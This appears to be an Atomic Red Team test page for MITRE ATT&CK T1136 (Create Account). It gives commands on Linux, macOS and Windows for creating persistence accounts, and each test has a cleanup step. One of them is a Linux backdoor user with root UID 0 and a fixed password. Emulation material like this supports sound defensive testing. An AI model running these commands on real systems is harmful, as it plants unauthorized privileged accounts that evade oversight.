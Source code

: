 # T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system, domain, or cloud tenant account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

In cloud environments, adversaries may create accounts that only have access to specific services, which can reduce the chance of detection.

### Windows

The <code>net user</code> commands can be used to create a local or domain account.

### Office 365

An adversary with access to a Global Admin account can create another account and assign it the Global Admin role for persistent access to the Office 365 tenant.(Citation: Microsoft O365 Admin Roles)(Citation: Microsoft Support O365 Add Another Admin, October 2019)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| comment | Comment to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -M -N -r -s /bin/bash -c evil_account #{username}
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```

#### Cleanup Commands:
```bash
dscl . -delete /Users/#{username}
```





<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_CMD|
| password | Password of the user to create | String | T1136_CMD!|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
net user /add "#{username}" "#{password}"
```

#### Cleanup Commands:
```cmd
net user /del "#{username}"
```





<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | T1136_PowerShell|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-LocalUser -Name "#{username}" -NoPassword
```

#### Cleanup Commands:
```powershell
Remove-LocalUser -Name "#{username}" -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|


#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```

#### Cleanup Commands:
```bash
userdel #{username}
```





<br/>
